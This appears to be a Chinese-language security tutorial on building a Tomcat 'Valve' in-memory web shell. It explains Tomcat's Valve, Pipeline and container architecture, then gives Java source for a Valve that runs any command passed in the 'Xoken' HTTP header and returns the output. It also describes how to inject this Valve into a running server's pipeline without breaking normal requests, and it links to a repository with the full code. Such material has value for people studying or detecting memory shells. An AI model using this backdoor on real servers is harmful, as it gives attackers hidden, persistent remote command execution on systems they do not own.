









# Valve 内存马

## 0x01 Valve 与 Pipeline

我们观察一次正常的 Servlet 请求，在 Servlet 前是 Filter，更前面则是一堆  xxxValve 调用了 `invoke()` 方法，他们都同时继承了 `org.apache.catalina.Valve` 这个接口，那么 Valve 是什么呢？



### Valve

在 `Valve` 接口的定义中是这样描述的， Valve(阀门) 是与特定 Container(容器) 相关联的请求处理组件，一连串的组件通常相互关联成一条 Pipeline(管道)，具体的实现在 `invoke()` 方法中。`Valve` 接口定义的方法也可以看到是一个链表的形式。



而 `Valve` 接口的实现类，包含了 tomcat 自身的一些逻辑，单点登录、负载均衡之类的。每个 `Valve` 做的事情也很简单

1. 实现自身逻辑
2. 传递下一个逻辑 getNext().invoke(request, response);



### Pipeline

 `Pipeline` 首先继承自 `org.apache.catalina.Contained` 接口，限定接口实现类智能与一个 `Container` 关联。提供的方法也都是对 `Valve` 的操作，通过调用其 `invoke()` 方法将按顺序执行 `Valve` (这点很重要)。因为我们要实现一个新的 `Valve` ，所以让我们来看一下  `addValve()` 和 `setBasic()` 两个方法。



### addValve()

`org.apache.catalina.core.StandardPipeline` 是处理 `Pipeline` 的标准实现，通过 `addValve()` 添加的 `Valve` 都被添加到了 `basic` 的前一个，不会被轻易替代。也就是说 `basic` 作为最后 `Valve` 链的最后一个。



### setBasic()

`setBasic()` 功能很简单，就是修改 `basic` ，而在 tomcat 中内置的四个 `Container` 都会调用该方法。



## 0x02 Tomcat 四大容器

对这四个容器简单介绍：

**Wrapper**：Wrapper 是 Tomcat 中用于封装 Servlet 的容器。它负责加载、初始化和管理 Servlet 实例，并将 Servlet 的请求和响应传递给相应的 Servlet 实例进行处理。每个 Servlet 都由一个 Wrapper 容器来管理。

**Context**：Tomcat 中的 Web 应用程序上下文容器，用于管理一个 Web 应用程序，每个 Context 又管理着多个 Wrapper。

**Host**：Host 是 Tomcat 中的虚拟主机容器，负责管理多个 Web 应用程序。每个 Host 对应一个或多个 Web 应用程序，它们共享同一个网络地址。Host 可以配置多个 Context。

**Engine**：Engine 是 Tomcat 中的顶级容器，负责管理和协调多个 Host。一个 Tomcat 实例可以包含一个或多个 Engine。Engine 处理接收到的所有请求，并将它们路由到相应的 Host 上进行处理。

这四个容器是怎么关联起来的呢，我们看到 `org.apache.catalina.core.StandardEngineValve` 实现了 `org.apache.catalina.valves.ValveBase` ，在其 `invoke()` 方法中 `StandardEngineValve` 的 `basic` 触发了 `Host` 的 `pipeline`。



所以 `basic` 这个 `Valve` 除了自身逻辑外，还负责与下一个容器对接，总体结构如下：



## 0x03 内存马实现

总结来说， `Valve` 内存马的实现思路就是向 Tomcat 原先的 Valves 责任链中添加自实现的 `Valve`，所以依样画葫芦继承 `org.apache.catalina.valves.ValveBase` 来实现 `Valve` 。

Valve 马需要注意的细节很多：

1. 在 `invoke()` 方法的结尾调用了 `this.getNext().invoke(request, response);` 方法指向下一个顺序的 `Valve` 避免影响正常业务。
2. 第二个细节还是因为传递，如果我们的 `Valve` 已经调用过 `getParameter()` ，后续真正执行业务的 `Valve` 就无法获取参数，这显然是不合理的。所以构造 `Valve` 马时要从 header 头中获取参数。

```java
public class TomcatValveExecMS extends ValveBase {

    private static String HEADER = "Xoken";

    public void invoke(Request request, Response response) {
        try {
            String header = (String) invokeMethod(request, "getHeader", new Class[]{String.class}, new Object[]{HEADER});
            String result = exec(header);
            invokeMethod(response, "setStatus", new Class[]{Integer.TYPE}, new Object[]{new Integer(200)});
            Object writer = invokeMethod(response, "getWriter", new Class[]{}, new Object[]{});
            invokeMethod(writer, "println", new Class[]{String.class}, new Object[]{result});
        } catch (Exception e) {

        }

        try {
            this.getNext().invoke(request, response);
        } catch (Exception e) {

        }
    }
```

然后获取上下文的 `StandardContext.getPipeline().addValve()` 插入自定义的 `Valve`。代码见 [JavaRce](https://github.com/Whoopsunix/JavaRce) 

当然因为是链表，所以也可以选择插入之前的 `Container`。




